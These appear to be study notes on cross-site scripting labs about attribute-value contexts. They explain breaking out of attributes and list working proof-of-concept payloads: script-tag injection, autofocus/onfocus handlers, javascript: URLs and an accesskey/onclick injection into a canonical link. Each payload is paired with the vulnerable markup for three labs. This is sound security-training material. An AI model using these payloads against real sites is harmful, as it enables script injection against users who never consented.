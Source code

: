 When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one. For example:
`"><script>alert(document.domain)</script>`

More commonly in this situation, angle brackets are blocked or encoded, so your input cannot break out of the tag in which it appears. Provided you can terminate the attribute value, you can normally introduce a new attribute that creates a scriptable context, such as an event handler. For example:
`" autofocus onfocus=alert(document.domain) x="`
The above payload creates an `onfocus` event that will execute JavaScript when the element receives the focus, and also adds the `autofocus` attribute to try to trigger the `onfocus` event automatically without any user interaction. Finally, it adds `x="` to gracefully repair the following markup.

---

## Exploits
1. `a" autofocus onfocus="alert(1)`
2. `javascript:alert(1)`
3. `'accesskey='X'onclick='alert(1)`


```js
<input value="ControlledValue">
<a href="ControlledValue">
<link rel="canonical" href='controlladValue'/>
```


---
### lab1
```js
<input type=text placeholder='Search the blog...' name='search' value="ControlledValue">

____Exploit____
a" autofocus onfocus="alert(1)
```

### lab2
```js
<a href="ControlledValue">

___Exploit____

javascript:alert(1)
```

### lab3
#### hidden input: canonical link
canonical link is a link that is created dynmaicly to observe the ideal http request that the request should look like.
You can't find it directly, you should submit additional arguements to the page in order to see it.
```js
<link rel="canonical" href='controlladValue'/>


       ____Exploit_____
'       'accesskey='X'onclick='alert(1) 
```

> [!important] Important
> You don't need to add spaces between attributes to seperate them, put you should put the values inside **' '** or **" "**

```js
<link rel="canonical" href='http://academy.net/?'accesskey='X'onclick='alert(1)'/>
```

